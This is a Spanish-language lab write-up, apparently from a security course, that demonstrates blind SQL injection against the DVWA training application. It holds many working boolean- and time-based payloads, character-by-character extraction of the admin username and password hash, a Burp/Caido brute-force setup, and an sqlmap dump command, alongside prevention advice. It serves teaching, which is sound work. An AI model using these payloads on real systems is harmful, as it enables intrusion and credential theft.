



> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Vulnerabilidades Web/00 - Índice del Módulo Vulnerabilidades Web|Índice del Módulo]]

---
# SQL Injection - Blind SQLi (DVWA)

# 💾 SQL Injection - Blind SQLi (A Ciegas)

 
 

## 📖 Prueba de Concepto (PoC)

 

### 🔓 ¿Qué es Blind SQL Injection?

 

**Blind SQL Injection (Inyección SQL a ciegas)** es una variante de la inyección SQL que ocurre cuando una aplicación web es vulnerable a inyecciones SQL, pero **no devuelve resultados visibles directamente** al atacante. A pesar de no ver los datos directamente en la respuesta, un atacante aún puede inferir información basándose en el comportamiento del sistema (tiempos de respuesta, errores, redirecciones, etc.).

 

> [!warning]
> 
 
> #### ⚠️ Desafío de Blind SQLi:
> 
 
> En estos casos, hay que revisar la plataforma y ver su comportamiento para poder llegar a la conclusión de que realmente existe un SQL Injection.
> 
> No vemos los datos directamente, pero podemos inferirlos mediante:
> 

> 
> * Cambios en el contenido de la página (TRUE/FALSE)
> 
> * Tiempos de respuesta del servidor (Time-based)
> 
> * Redirecciones o comportamientos diferentes
> 

> 

 

### 🎯 Técnicas de Blind SQLi

 

> [!note]
> 
 
> #### 🔍 1. Boolean-based (Basada en Booleanos):
> 
 
> El atacante modifica la consulta para que devuelva **verdadero o falso** y observa cómo cambia el comportamiento de la aplicación.
> 
> 
> **Ejemplos:**
> 
> ```
> ' AND 1=1 -- → carga normalmente (TRUE)
> ' AND 1=2 -- → genera un error o carga diferente (FALSE)
> ```
> 
 
> 
> Si la página se comporta diferente según la condición, podemos extraer información bit a bit.
> 

 

> [!note]
> 
 
> #### ⏱️ 2. Time-based (Basada en Tiempos):
> 
 
> Se manipula la consulta para que, si cierta condición es verdadera, el servidor **espere unos segundos** antes de responder.
> 
> 
> **Ejemplos:**
> 
> ```
> 1' AND SLEEP(5)#
> 1' AND SLEEP(5)--
> ```
> 
 
> 
> Si el servidor tarda 5 segundos en responder, la condición es TRUE y la vulnerabilidad existe.
> 

 

### 🛡️ Prevención de Blind SQL Injection

 

> [!tip]
> 
 
> #### 🔐 Mejores Prácticas:
> 
 

> 
> 1. Usar **consultas preparadas (prepared statements)** con enlace de parámetros (bind parameters)
> 
> 2. Validar y sanear la entrada del usuario correctamente (evitar pasar datos sin filtrar a consultas SQL)
> 
> 3. Usar **ORM (Object-Relational Mappers)** que abstraen las consultas
> 
> 4. Evitar mostrar mensajes de error SQL al usuario
> 
> 5. Implementar **WAF (Web Application Firewalls)** como protección adicional
> 

> 

 

 
 

## 🔍 Estudiando el Entorno - Detección

 

### 📊 Paso 1: Analizar Respuestas del Servidor

 

Vamos primero a comprobar las respuestas que nos lanza el servidor según las consultas que realicemos.

 

Vemos que si ponemos unos determinados números la plataforma devuelve si el usuario existe o no en la base de datos:

 



 

**TRUE** - El usuario existe

 



 

**FALSE** - El usuario no existe

 

Ya de antemano podemos saber cuántos usuarios existen en el sistema.

 

### 💉 Paso 2: Probar Payloads de Detección

 

Ahora probamos poco a poco para localizar si es vulnerable:

 

```
1
1'
1' and 1=1
1' and 1=1#
```

 

El último payload responde **TRUE**, por lo que es vulnerable. Aunque podemos ir probando todos los posibles, probando también con espacio al final:

 

```
--
//
/*
-- +
#
```

 

### ⏱️ Paso 3: Verificar Time-based SQLi

 

Vamos ahora a comprobar si responde a un time-based con los siguientes payloads:

 

```
1' AND SLEEP(5)#
1' AND SLEEP(5)-- // Insertar un espacio al final
```

 

Comprobamos que el motor tarda **5 segundos** en contestar, por lo tanto es vulnerable a SQL Injection.

 

> [!warning]
> 
 
> **✅ Confirmación de Vulnerabilidad:**
> 

> 
> * Responde diferente a `1=1` vs `1=2` → Boolean-based
> 
> * Tarda exactamente 5 segundos con `SLEEP(5)` → Time-based
> 
> * Ambas técnicas confirman que existe Blind SQL Injection
> 

> 

 

 
 

## 📊 Determinando las Columnas

 

Ahora es importante conocer la estructura de la base de datos. Comenzamos determinando la cantidad de columnas que hay.

 

**Payload:**

 

```bash
1' ORDER BY X# // Incrementamos X mientras TRUE hasta FALSE
```

 

> [!note]
> 
 
> #### 💡 Técnica ORDER BY:
> 
 
> `ORDER BY` ordena los resultados por el número de columna especificado:
> 
> ```bash
> 1' ORDER BY 1# → TRUE (existe columna 1)
> 1' ORDER BY 2# → TRUE (existe columna 2)
> 1' ORDER BY 3# → FALSE (no existe columna 3)
> ```
> 
 
> **Conclusión:** La tabla tiene **2 columnas**.
> 

 

Vemos que en 3 hay FALSE, por lo que hay **dos columnas**.
 

 
 

## 🔎 Buscando Información en las Tablas

 

### 📋 Paso 1: Encontrar Nombres de Tablas

 

Vamos a intentar encontrar nombres de tablas de la base de datos. Empezamos intentando averiguar nombres que puedan ser interesantes.

 

Lo podemos hacer con los siguientes payloads:

 

```sql
1' and (select count(*) from usuarios)#
1' and (select count(*) from users)#
```

 

Da **TRUE** a la tabla `users`.

 

#### Alternativa: Averiguar longitud del nombre de tablas

 

Podríamos haber usado el siguiente payload previamente para averiguar la longitud del nombre de las tablas existentes:

 

```sql
1' AND IF((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=5, SLEEP(5), 0)#
```

 

> [!tip]
> 
 
> #### 🔧 Cómo Funciona:
> 
 
> Si la longitud del nombre de la primera tabla es 5:
> 

> 
> * La condición `LENGTH(table_name)=5` es TRUE
> 
> * Ejecuta `SLEEP(5)` → tarda 5 segundos
> 
> * Si la longitud no es 5 → responde inmediatamente
> 

> 
> Probando con diferentes valores (1, 2, 3, 4, 5...) hasta que tarde 5 segundos.
> 

 

### 🔑 Paso 2: Encontrar Nombres de Columnas

 

Ahora tratamos de averiguar el nombre de los campos de la tabla `users`. Usamos los siguientes payloads:

 

```sql
1' and (select count(id) from users)#
1' and (select count(user) from users)#
1' and (select count(password) from users)#
1' and (select count(user_id) from users)#
```

 

**Columnas encontradas:** `user_id`, `user`, `password`
 

 
 

## 👤 Extrayendo Nombres de Usuario

 

### 📏 Paso 1: Determinar Longitud del Username

 

Vamos a averiguar la longitud del nombre de usuario según su ID:

 

```bash
1' and (select length(user) from users where user_id=1) > 10#
1' and (select length(user) from users where user_id=1) < 10# // TRUE
1' and (select length(user) from users where user_id=1) > 5#
1' and (select length(user) from users where user_id=1) < 5#
1' and (select length(user) from users where user_id=1) = 5# // TRUE
```

 

**Conclusión:** El nombre de usuario del user_id=1 tiene **5 caracteres**.

 

### 🔤 Paso 2: Extraer el Username Carácter por Carácter

 

Ahora averiguamos el nombre del usuario:

 

```sql
1' AND SUBSTRING((SELECT user FROM users WHERE user_id=1), 1, 1) = 'a'#
```

 

> [!note]
> 
 
> #### 💡 Función SUBSTRING:
> 
 
> `SUBSTRING(cadena, posición, longitud)`
> 

> 
> * `SUBSTRING('admin', 1, 1)` → 'a' (primer carácter)
> 
> * `SUBSTRING('admin', 2, 1)` → 'd' (segundo carácter)
> 
> * `SUBSTRING('admin', 3, 1)` → 'm' (tercer carácter)
> 

> 

 

### ⚡ Paso 3: Automatizar con Caido/Burp Suite

 

Aquí ahora vamos a usar **Caido** (o Burp Suite), usando el payload superior buscando caracteres desde **97 a 122** (a-z en ASCII) y probando distintas posiciones.

 

Marcamos las siguientes posiciones:

 ********

```sql
1' AND SUBSTRING((SELECT user FROM users WHERE user_id=1), 1, 1) = 'a'#
 ↑ ↑
 Posición (1-5) Carácter (a-z)
```

 

#### Configuración del Ataque Matrix en Caido:

 

 
1. **Elegimos ataque Matrix (Cluster Bomb en Burp)**
 
2. En posición **1**: Números del 1 al 5 (sería la longitud del nombre)
 
3. En carácter **a**: Los caracteres a-z
 

 

#### Crear Diccionario de Caracteres:

 

```bash
$ echo {a..z} | tr ' ' '\n' > chars.txt
```

 

Atacamos con Caido, esperamos y obtendremos el nombre de usuario:

 



 

> [!tip]
> 
 
> #### ✅ Resultado del Ataque:
> 
 
> Filtrando por respuestas **TRUE** (diferentes a FALSE), obtenemos:
> 

> 
> * Posición 1 → 'a'
> 
> * Posición 2 → 'd'
> 
> * Posición 3 → 'm'
> 
> * Posición 4 → 'i'
> 
> * Posición 5 → 'n'
> 

> 
> **Username extraído:** `admin`
> 

 

 
 

## 🔐 Extrayendo Contraseñas (Hashes)

 

### 📏 Paso 1: Determinar Longitud del Hash

 

Al igual que hemos sacado el nombre de usuario, podríamos extraer la contraseña:

 

```sql
1' and (select length(password) from users where user_id=1) > 10#
```

 

Los hashes MD5 tienen **32 caracteres** hexadecimales.

 

### 🔤 Paso 2: Extraer el Hash Carácter por Carácter

 

```sql
1' AND SUBSTRING((SELECT password FROM users WHERE user_id=1), 1, 1) = '0'#
```

 

### ⚡ Paso 3: Crear Diccionario Hexadecimal

 

En este caso la password es un hash, por lo que usaremos el siguiente diccionario:

 

```bash
$ echo {0..9} {a..f} | tr ' ' '\n' > hex_chars.txt
```

 

> [!warning]
> 
 
> **🔧 Configuración del Ataque para Hash:**
> 

> 
> * **Posición:** 1 a 32 (longitud del hash MD5)
> 
> * **Caracteres:** 0-9 y a-f (hexadecimal)
> 
> * **Tiempo estimado:** 32 posiciones × 16 caracteres = 512 peticiones
> 

> 

 

### 🎯 Paso 4: Automatizar con SQLMap

 

Alternativamente, podemos usar SQLMap para automatizar completamente este proceso:

 

```bash
$ sqlmap -u "http://dvwa.local/vulnerabilities/sqli_blind/?id=1&Submit=Submit" \
 --cookie="PHPSESSID=...; security=low" \
 --technique=B \
 --dump -T users -D dvwadb
```

 

> [!note]
> 
 
> #### 🔧 Parámetro --technique:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> `B`
> 
> 
> 
> 
> `T`
> 
> 
> 
> 
> `E`
> 
> 
> 
> 
> `U`
> 
> 
> 
> 
> `S`
> 
> 
> 
> 
> | Técnica | Código | Descripción |
> | --- | --- | --- |
> | Boolean-based blind | | Basada en TRUE/FALSE |
> | Time-based blind | | Basada en tiempos de respuesta |
> | Error-based | | Basada en errores SQL |
> | Union-based | | Basada en UNION SELECT |
> | Stacked queries | | Múltiples consultas |
> 
 
> Ejemplo: `--technique=BT` (Boolean + Time-based)
> 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ Blind SQLi no muestra datos directamente pero se pueden inferir
> 
> * ✅ Boolean-based infiere datos según TRUE/FALSE en respuestas
> 
> * ✅ Time-based infiere datos según tiempos de respuesta
> 
> * ✅ ORDER BY permite contar el número de columnas
> 
> * ✅ SUBSTRING extrae caracteres uno a uno
> 
> * ✅ LENGTH determina la longitud de campos
> 
> * ✅ Caido/Burp automatizan la extracción carácter por carácter
> 
> * ✅ SQLMap puede automatizar completamente Blind SQLi
> 

> 
 
> ### 🔑 Funciones SQL Clave para Blind SQLi:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> `SUBSTRING()`
> 
> `SUBSTRING('admin', 1, 1) = 'a'`
> 
> 
> `LENGTH()`
> 
> `LENGTH(user) = 5`
> 
> 
> `SLEEP()`
> 
> `SLEEP(5)`
> 
> 
> `IF()`
> 
> `IF(1=1, TRUE, FALSE)`
> 
> 
> `ORDER BY`
> 
> `ORDER BY 3`
> 
> 
> 
> | Función | Descripción | Ejemplo |
> | --- | --- | --- |
> | | Extraer caracteres de una cadena | |
> | | Longitud de una cadena | |
> | | Pausar ejecución (segundos) | |
> | | Condicional | |
> | | Ordenar y contar columnas | |
> 

> 
> ### 🎯 Metodología Completa de Blind SQLi:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> **1. Detección**
> 
> `' AND 1=1#``' AND 1=2#`
> Time: `' AND SLEEP(5)#`
> 
> 
> **2. Enumerar columnas**
> 
> `' ORDER BY 1#, 2#, 3#...`
> 
> 
> **3. Encontrar tablas**
> 
> `' AND (SELECT count(*) FROM users)#`
> 
> 
> **4. Encontrar columnas**
> 
> `' AND (SELECT count(user) FROM users)#`
> 
> 
> **5. Longitud de datos**
> 
> `' AND LENGTH(user)=5#`
> 
> 
> **6. Extracción byte a byte**
> 
> `' AND SUBSTRING(user,1,1)='a'#`
> 
> 
> 
> | Fase | Objetivo | Técnica |
> | --- | --- | --- |
> | | Confirmar vulnerabilidad | Boolean: vs |
> | | Contar columnas | |
> | | Nombres de tablas | |
> | | Nombres de campos | |
> | | Tamaño de campo | |
> | | Extraer datos completos | |
> 

> 
> ### 🎯 Navegación:
> 
 
> ← Anterior: 07-03 - SQL Injection (SQLMap)
> 
> ↑ Volver al Índice del Módulo
> 

 

 
 

## 🎉 ¡Módulo de Vulnerabilidades Web Completado!

 

 Has completado todas las prácticas del módulo de Vulnerabilidades Web, cubriendo las principales amenazas del OWASP Top 10.
 
 

 
 📚 Volver al Índice del Módulo
 
 
 

 ¡Felicidades por completar el módulo completo de Vulnerabilidades Web!

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Vulnerabilidades Web/00 - Índice del Módulo Vulnerabilidades Web|Índice del Módulo]]
